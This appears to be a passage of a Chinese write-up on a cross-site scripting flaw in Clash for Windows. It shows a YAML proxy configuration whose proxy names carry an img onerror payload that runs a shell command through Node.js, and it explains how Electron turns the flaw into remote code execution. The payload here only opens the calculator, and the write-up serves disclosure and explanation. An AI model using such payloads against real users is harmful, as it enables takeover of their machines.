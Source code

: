 ![](./cfw/cfw_issue.png)

XSS即跨站脚本攻击，一般出现在浏览器里，简单来说就是攻击者可以控制网页部分内容时，可以向其中注入恶意javascript脚本，导致其他人访问这个网页时在自己浏览器上执行恶意代码。具体到这个漏洞，exploit大概长成这样。

```yaml
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
```
从Clash的角度来看，这当然是非常正常非常合法的一段配置，虽然代理和代理组的名字有点奇怪，但名字长度并没有限制，而这些也都是合法的字符。但是，一旦我们要用CFW把这些代理名字渲染成图形界面，electron框架就会把这些当成图片（img标签）渲染，并且这些图片定义了onerror回调函数，即当图片加载失败时，就会运行后面的javascript代码。（这里其实隐含了一个触发条件，那就是这些代码只有在被渲染时才会执行，因此导入配置后需要切换到proxies页面。在我尝试过程中这一点造成了我几次失败）

XSS当然是一种很常见威胁很大的漏洞，但是因为浏览器不能访问本地文件，不能访问系统shell，甚至javascript访问资源还受同源策略的限制，所以给我留下一种XSS的影响面很弱的印象，虽然会泄露隐私，但并不会导致对设备的完全控制。但是，在electron框架下，Javascript的代码执行是交给nodejs的，而nodejs对于非专业人士你可以理解为Javascript版本的Python，就像Python的`open`和`import os`一样，用`require("fs")`可以读写文件，用`require("child_process")`可以执行系统shell命令。这种情况下XSS的杀伤力就非常恐怖了，一个XSS就可以进行系统级别的RCE，利用成功后甚至可以反弹shell实现不依赖于CFW持久的控制。
